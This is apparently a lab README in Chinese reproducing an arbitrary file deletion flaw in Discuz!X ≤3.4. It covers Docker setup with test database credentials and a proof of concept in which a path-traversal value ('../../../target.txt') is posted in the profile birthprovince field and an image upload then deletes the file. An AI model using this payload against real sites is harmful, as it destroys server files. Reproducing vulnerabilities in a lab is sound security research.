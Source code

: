 # Discuz!X ≤3.4 任意文件删除漏洞

影响版本：Discuz!X ≤3.4  漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

# 环境
执行下列命令部署 Discuz!X 安装环境

    docker-compose build
    docker-compose up -d

在镜像完成部署后使用下列命令获取数据库IP以便后面安装。

    docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' $container_name_or_id

数据库地址为上面的命令获得的地址，数据库名为：`DISCUZX` 。用户名可用 `root` 或 `DISCUZX` ，口令是 `DISCUZX` 。

![](1.png)

# POC

使用 `docker ps` 以及 `docker exec -it $container_name_or_id ` 查看当前目录的状态，可以看到测试文件 `target.txt` 。

![](2.png)

![](3.png)

注册用户后进入用户资料修改页面，在基本资料页面尝试使用 `Hackbar` 提交

    POST http://$IP/home.php?mod=spacecp&ac=profile&op=base
    birthprovince=../../../target.txt&profilesubmit=1&formhash=$UserHash

其中formhash可以再页面中查找获得。

![](4.png)

提交成功之后用户资料修改页面上的出生地就会显示成下图所示的状态。

![](5.png)

这时使用 `upload.html` 进行任意图片上传。

![](6.png)

完成攻击，目标文件成功被删除

![](7.png)